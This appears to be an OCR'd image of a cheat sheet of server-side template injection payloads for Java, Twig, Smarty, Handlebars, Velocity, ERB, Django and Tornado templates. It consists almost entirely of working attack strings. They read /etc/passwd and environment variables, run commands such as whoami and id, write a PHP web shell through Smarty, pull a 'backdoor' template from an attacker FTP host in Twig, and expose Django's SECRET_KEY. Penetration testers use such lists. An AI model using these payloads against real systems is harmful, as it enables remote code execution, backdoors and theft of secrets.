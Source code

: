 ```
${T(java.lang.System).getenv()}
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}
--------------------------------------------------------------------
Twig (PHP):
{{7*7}}
{{7*'7'}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
--------------------------------------------------------------------
Smarty (PHP):
{$smarty.version}
{php}echo `id`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
-------------------------------------------------------------------
Handlebars (NodeJS):
wrtz{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
-------------------------------------------------------------------
Velocity:
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
-------------------------------------------------------------------
ERB (Ruby):
<%= system("whoami") %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
-------------------------------------------------------------------
Django Tricks (Python):
{% debug %}
{{settings.SECRET_KEY}}
--------------------------------------------------------------------
Tornado (Python):
{% import foobar %} = Error
{% import os %}{{os.system('whoami')}}
--------------------------------------------------------------------
```